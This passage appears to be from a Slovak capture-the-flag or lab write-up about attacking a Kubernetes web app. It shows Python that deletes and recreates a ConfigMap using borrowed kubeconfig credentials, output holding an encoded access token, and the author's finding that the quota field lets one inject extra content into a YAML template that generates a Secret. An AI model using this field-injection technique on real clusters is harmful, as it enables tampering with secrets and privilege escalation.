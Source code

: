 ```
    return configmap

# Load the kubeconfig and create API client
config.load_kube_config(config_file='kubecreds-jacob.config')
v1 = client.CoreV1Api()

# Attempt to delete the ConfigMap if it exists
v1.delete_namespaced_config_map(
    name=f"request-{txid}",
    namespace="sam-queue",
    body=client.V1DeleteOptions()
)

# Create the ConfigMap
cm_obj = create_configmap_object()
api = v1.create_namespaced_config_map(body=cm_obj, namespace="sam-queue")

print("ConfigMap created successfully, check the web app status.")

```


Nazrieme do status.html a vidíme našu zmenu

	Project status

	{"project_name": "HelloWorld", "project_quota": "1GB", "storage": "storage-hal-03", "txid": "76690ebb6d6ee9ceedc06a2b5ffae29c"}
	
	{"access_token": "ODZkYWZhNDljZjg5Y2EzM2Y4NmI5YmMyMjZjYTE4NzQyYTZkYzk3OA==", "quota": "MUdC", "storage": "c3RvcmFnZS1oYWwtMDM="}

skúšal som vložiť "debug":"" do configmapy, ale to sa prejavilo len v hornom riadku.

Po dlhšej analýze 00-hooks.py som bol na začiatku len slepý a prehliadol som, že si tam viem pomocou qouty injectnuť ďalší string do UPDATE_TEMPLATE, ktorý vytvára na základe configmapy ten secret

```
UPDATE_TEMPLATE = """
---
apiVersion: v1
kind: ConfigMap
metadata:
  name: "{name}"
  namespace: "{queue_ns}"
data:
  storage: "{storage}"
---
apiVersion: v1
kind: Secret
metadata:
  name: "{name}"
  namespace: "{queue_ns}"
stringData:
  storage: "{storage}"
  access_token: "{access_token}"
  quota: "{quota}"
"""
```
